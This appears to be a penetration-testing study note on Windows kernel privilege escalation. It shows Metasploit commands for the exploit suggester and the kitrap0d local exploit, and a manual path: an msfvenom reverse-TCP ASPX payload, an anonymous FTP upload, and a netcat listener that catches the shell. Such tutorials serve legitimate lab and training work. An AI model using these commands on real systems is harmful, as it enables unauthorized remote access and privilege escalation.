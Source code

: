 
The Kernel is the program that controls everything in the system.  It runs between the applications and the hardware.  It acts like a translator.  It takes instructions from the applications and turns them into instruction sets for the hardware.

When getting the sysinfo information, you can look for the build number and version and then use that info to look up any kernel exploits for that build and version.

https://github.com/SecWiki/windows-kernel-exploits   - this is a good github to use to look up kernel exploits.

### METASPLOIT

```
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > background
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > options
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 9
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
In here, we run the exploit suggester inside the meterpreter session then background that session after we get the output.  Not the session number as you will use it in the next couple steps.  Once you get that info and are out of the meterpreter session, you can go through the list and try the exploits kicked out from the suggester.  Set your session to the session you had background a second ago.  Set the rest of your options and give it a go.
If it doesn't work on the first run, check your options again and make sure nothing defaulted back and try it again.  If the first one doesn't work, try the next one.

This is the metaspoit way, using the meterpreter and all that.

Other info:
Kitrap0d Information - https://seclists.org/fulldisclosure/2010/Jan/341

### MANUALLY

Going to use `msfvenom` to craft the exploit. 

`root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f aspx > manual.aspx`

Here we run msf venom with the -p for payload.  Then we give it the payload we want to create (a reverse tcp shell here).  Then we set our `LHOST` and `LPORT` to what our local host and the port we're listening on.  We then use `-f` to specify the filetype, aspx in this case.  We then output `>` that into the file `manual.aspx`

Once we have that created we can start our netcat listener and upload the file via our connection means, this one we had FTP.

FTP Commands
```
ftp 10.10.10.5
anonymous
put manual.aspx
```


Netcat Command
`nc -nvlp 4444`

Then we use our browser or whatever we need to use in order to get the page to launch.  This will give us our shell.

Once we have the shell we can then get the information needed to run the exploit suggestor (from sysinfo) and then use that info to work our way through the different exploits and try to find one that works.

Make sure you read about the different exploits that you try.  Some have other options that are needed.

A good starting place for exploits on a win machine is the Temp folder.  Usually every user has access to that folder.



Other info
MS10-059 Exploit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
